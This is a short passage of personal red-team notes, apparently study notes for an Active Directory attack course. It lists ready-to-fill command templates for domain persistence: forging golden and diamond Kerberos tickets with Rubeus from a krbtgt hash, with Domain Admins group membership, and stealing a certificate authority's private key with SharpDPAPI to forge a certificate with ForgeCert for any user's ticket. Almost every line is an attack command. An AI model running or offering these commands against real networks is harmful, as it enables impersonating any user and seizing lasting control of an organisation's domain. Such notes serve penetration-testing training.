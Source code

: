 `C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:[hash] /user:[any user] /domain:[domain] /sid:[domain sid] /nowrap`
[[#Pass-the-Ticket]]
#### Diamond Ticket
request TGT for any user to access any service on any machine
- requires krbtgt hash

`powershell Get-ADUser -Identity "[user]" | Select SID`→ RID is last section of SID
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /krbkey:[aes256 hash] /tgtdeleg /ticketuser:[any user] /ticketuserid:[user rid] /groups:512 /nowrap`
[[#Pass-the-Ticket]]
#### Forged Certificate
on CA, `execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe certificates /machine`
copy certificate (both private key and certificate) to ca.pem
`openssl pkcs12 -in ca.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out ca.pfx`

`C:\Tools\ForgeCert\ForgeCert\bin\Release\ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword pass123 --Subject "CN=User" --SubjectAltName "[any user]@[domain]" --NewCertPath cert.pfx --NewCertPassword pass123`

`cat cert.pfx | base64 -w 0`
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:[user] /domain:[domain] /certificate:[base64] /password:pass123 /enctype:aes256 /opsec /nowrap`
#### GPO
[[#Create and Link a GPO]]
